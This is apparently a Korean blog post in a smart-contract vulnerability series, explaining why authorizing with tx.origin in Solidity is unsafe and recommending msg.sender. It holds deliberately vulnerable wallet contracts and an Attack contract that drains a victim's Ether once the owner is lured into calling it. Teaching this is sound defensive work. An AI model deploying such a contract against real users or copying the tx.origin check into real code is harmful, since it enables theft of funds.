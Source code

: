 ```yaml
---
emoji: 🧢
title: (취약점 시리즈 8) tx.origin
date: '2022-01-03 2:57:00'
author: 한성원
tags: tx.origin 취약점 SmartContract vulnerability
categories: 취약점분석
---
```



# 👋 tx.origin

## txorigin vs msg.sender
주로 tx.origin은 msg.sender과 비교된다.   
우선 우리가 잘 아는 msg.sender는 함수를 호출한 사람을 가리키는 주소이다.
tx.origin을 보면 tx는 transaction을 뜻한다. 즉 transaction을 만든 address를 뜻한다.

만약 account에서 smart contract A로 transaction을 보낸다면 msg.sender와 tx.origin은 같을 것이다. 왜냐하면 transaction을 만든이와 transaction을 보낸 사람이 같기 때문이다.

그렇다면 account -> smart contract A -> smart contract B 순으로 transaction을 보낸다면 어떻게 될까? B의 관점에서 본다면 transaction을 만든이는 account이고 msg.sender은 A일 것이다.
밑에 사진을 본다면 이해가 더 쉬울 것이다. 
![tx.origin_vs_msg.sender](./txorigin_vs_msg.sender.png)

- - -

## Example Code
이 Example Code는 solidity docs에 나와있는 내용이다!
```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;
// THIS CONTRACT CONTAINS A BUG - DO NOT USE
contract TxUserWallet {
    address owner;

    constructor() {
        owner = msg.sender;
    }

    function transferTo(address payable dest, uint amount) public {
        // THE BUG IS RIGHT HERE, you must use msg.sender instead of tx.origin
        require(tx.origin == owner);
        dest.transfer(amount);
    }
}
```
```
contract Wallet {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");

        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    address payable public owner;
    Wallet wallet;

    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    function attack() public {
        wallet.transfer(owner, address(wallet).balance);
    }
}
```
시나리오는 이렇다.
1. A가 10 Ether와 함께 Wallet contract를 배포한다.
2. B가 Attack contract를 Wallet contract의 주소와 함꼐 배포한다.
3. A가 Attack contract의 attack()을 call한다.
4. B는 Alice의 Ether를 다 가져오게 된다. 

"누가 속아서 attack()을 call해!" 할 수 있지만 충분히 일어날 수 있다고 생각된다.
- - -

## How to prevent?
solidity docs에서도 tx.origin을 authorization 사용하지 않을 것을 권장하고 있다. 또한 tx.origin은 사라질 수도 있다고 한다! 그러니 앞으로 msg.sender를 사용하도록 하자

```
Besides the issue with authorization, there is a chance that tx.origin will be removed from the Ethereum protocol in the future, so code that uses tx.origin won't be compatible with future releases Vitalik: 'Do NOT assume that tx.origin will continue to be usable or meaningful.'
```
- - -

## 마무리
정말 간단하게 고칠 수 있는 부분이라고 생각이 든다. 그리고 동시에 이런 사소한 실 수 하나가 큰 영향을 미칠 수 있다는 것이 놀랍다. 앞으로 tx.origin 말고 msg.sender를 꼭 사용하자!!!


### Reference
- https://davidkathoh.medium.com/tx-origin-vs-msg-sender-93db7f234cb9
- https://solidity-by-example.org/hacks/phishing-with-tx-origin/
- https://docs.soliditylang.org/en/v0.8.10/security-considerations.html
```toc

```